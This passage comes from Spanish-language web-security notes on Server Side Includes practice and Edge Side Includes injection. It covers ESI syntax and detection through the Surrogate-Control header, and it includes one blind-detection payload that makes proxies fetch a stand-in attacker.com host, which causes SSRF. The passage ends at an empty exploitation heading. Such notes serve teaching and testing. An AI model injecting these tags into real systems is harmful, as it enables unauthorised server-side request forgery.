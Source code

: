 #### Práctica de SSI <a href="#ssi-practice" id="ssi-practice"></a>

Puedes practicar aquí:

```
https://www.owasp.org/index.php/OWASP_Broken_Web_Applications_Project
```

### Incluye el lado del borde (ESI) <a href="#edge-side-includes-esi" id="edge-side-includes-esi"></a>

Los proxies y otras infraestructuras intermedias similares los utilizan

* Las aplicaciones web modernas suelen constar de varios servidores intermedios antes de que las solicitudes de los usuarios lleguen al servidor de aplicaciones final. Deberíamos intentar interactuar con dicha infraestructura intermedia inyectando algunas etiquetas ESI a nuestras solicitudes
* ESI tiene una forma de etiquetas XML, que se agregan dinámicamente al contenido estático almacenado en caché para enriquecerlo con algunas características dinámicas.
* Las etiquetas ESI se inyectan mediante mecanismos de caché para otros mecanismos de caché; Sin embargo, si un usuario puede agregar etiquetas ESI a la solicitud HTTP, los proxies podrían analizarla sin conocer su origen.

![[Pasted image 20240311155557.png]]

#### Expresiones ESI <a href="#esi-expressions" id="esi-expressions"></a>

Ejemplo:

```
<esi:include src="/weather/name?id=$(QUERY_STRING{city_id})"/>
```

#### Detección de ESI <a href="#esi-detection" id="esi-detection"></a>

En la mayoría de los casos, el uso de un enfoque de ataque ciego

Si ves el encabezado:

```
Surrogate-Control: content="ESI/1.0"
# in this case, u can suspect that ESI is in use. 
# However, in most cases, there will be no sign of using ESI
```

Para detectar con el enfoque ciego, el usuario puede intentar inyectar etiquetas que hagan que los proxies resuelvan direcciones arbitrarias que resulten en SSRF:

```
<esi:include src=http://attacker.com/>
```

#### Explotación de ESI <a href="#esi-exploitation" id="esi-exploitation"></a>
